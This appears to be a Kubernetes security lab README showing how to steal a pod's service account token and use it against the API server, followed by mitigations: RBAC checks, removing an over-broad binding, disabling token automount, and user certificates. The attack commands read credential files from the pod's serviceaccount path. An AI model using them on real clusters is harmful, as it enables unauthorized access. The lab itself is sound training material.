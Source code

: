 # Identity theft

In this lab you will steal the identity of a pod.

## Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### Getting the credentials

```bash
# verify the sensitive data in the pod
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
# store the token into an env variable
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)

# store the CA into a file
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i delete pods
kubectl auth can-i --list

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`

```yaml
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
```

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

#### ServiceAccountToken

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: my-service-account
automountServiceAccountToken: false
```

## User Management

````bash

```bash
openssl genrsa -out john.key 2048
openssl req -new -key john.key -out john.csr # common name is important
cat john.csr | base64 -w 0
````

```yaml
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: john
spec:
  request: ...
  signerName: kubernetes.io/kube-apiserver-client
  expirationSeconds: 86400 # one day
  usages:
    - client auth
```

```bash
# create csr.yaml
kubectl create -f csr.yaml
kubectl get csr

# approve csr
kubectl certificate approve john

# create role and assign role to user
kubectl create role john --resource pods --verb list,get
kubectl create rolebinding john --role john --user john

# verify
kubectl auth can-i list pods --as john
kubectl auth can-i delete pods --as john
kubectl -n kube-system auth can-i list pods --as john
```
